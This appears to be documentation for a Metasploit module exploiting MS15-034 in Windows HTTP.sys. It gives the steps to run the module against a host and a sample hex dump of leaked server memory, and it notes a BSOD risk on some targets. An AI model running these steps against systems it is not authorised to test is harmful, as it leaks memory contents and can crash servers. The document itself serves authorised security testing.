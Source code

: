 ## Description

This module dumps memory contents using a crafted Range header and affects only Windows 8.1, Server 2012, and Server 2012R2. 

**Note:** If the target is running in VMware Workstation, this module has a high likelihood of resulting in BSOD; however, VMware ESX and non-virtualized hosts seem stable. Using a larger target file should result in more memory being dumped, and SSL seems to produce more data as well.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/ms15_034_http_sys_memory_dump```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output
```
msf > use auxiliary/scanner/http/ms15_034_http_sys_memory_dump
msf auxiliary(ms15_034_http_sys_memory_dump) > set RHOSTS 10.1.1.125
RHOSTS => 10.1.1.125
msf auxiliary(ms15_034_http_sys_memory_dump) > set RPORT 80
RPORT => 80
msf auxiliary(ms15_034_http_sys_memory_dump) > exploit

[+] Target is vulnerable!
[+] Content length is 10240 bytes
[+] Stand by...
[+] Memory contents:
[*] 4854 5450 2f31 2e31 2032 3030 204f 4b0d    HTTP/1.1 200 OK.
[*] 0a43 6f6e 7465 6e74 2d54 7970 653a 2074    .Content-Type: t
[*] 6578 742f 6874 6d6c 0d0a 4c61 7374 2d4d    ext/html..Last-M
[*] 6f64 6966 6965 643a 204d 6f6e 2c20 3232    odified: Mon, 20
[*] 204a 756e 2032 3031 3520 3134 3a32 313a     Mar 2017 21:27:
[*] 3535 2047 4d54 0d0a 4163 6365 7074 2d52    55 GMT..Accept-R
[*] 616e 6765 733a 2062 7974 6573 0d0a 4554    anges: bytes..ET
[*] 6167 3a20 2261 3563 6663 3863 6166 3661    ag: "a5cfc8caf6a
[*] 6364 3031 3a30 220d 0a53 6572 7665 723a    cd01:0"..Server:
[*] 204d 6963 726f 736f 6674 2d49 4953 2f38     Microsoft-IIS/8
[*] 2e35 0d0a 582d 506f 7765 7265 642d 4279    .5..X-Powered-By
[*] 3a20 4153 502e 4e45 540d 0a00 0000 0000    : ASP.NET.......
[*] 0000 0202 4672 6167 0000 0000 0000 0000    ....Frag........
[*] c028 0000 0000 0000 0000 0000 0000 0000    .(..............
[*] 0200 0a00 4672 6565 0000 0000 0000 0000    ....Free........
[*] d01e f6c5 02f8 ffff 40a2 6502 00e0 ffff    ........@.e.....
[*] 0a00 0d02 4d64 6c20 0000 0000 0000 0000    ....Mdl ........
[*] 1000 6702 00e0 ffff 3800 0c00 0000 0000    ..g.....8.......
[*] 0000 0000 0000 0000 ba9a e501 00e0 ffff    ................
[*] 0090 e501 00e0 ffff 5c00 0000 ba0a 0000    ........\.......
[*] 59a8 1300 0000 0000 0000 0000 0000 0000    Y...............
[*] 0000 0000 0000 0000 0000 0000 0000 e0dc    ................
[*] 0d00 0d02 4d64 6c20 0000 0000 0000 0000    ....Mdl ........
[*] 9079 2602 00e0 ffff 3800 1c00 0000 0000    .y&.....8.......
...
...
...
[*] 6079 0702 00e0 ffff 0000 0000 0000 0000    `y..............
[*] 0e00 1902 5669 4d6d 0000 0000 0000 0000    ....ViMm........
[*] Suppressed 346 uninteresting lines
[*] Memory dump saved to /home/rw/.msf4/loot/20150622073911_default_10.1.1.125_iis.ms15034_145400.bin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ms15_034_http_sys_memory_dump) > 
```
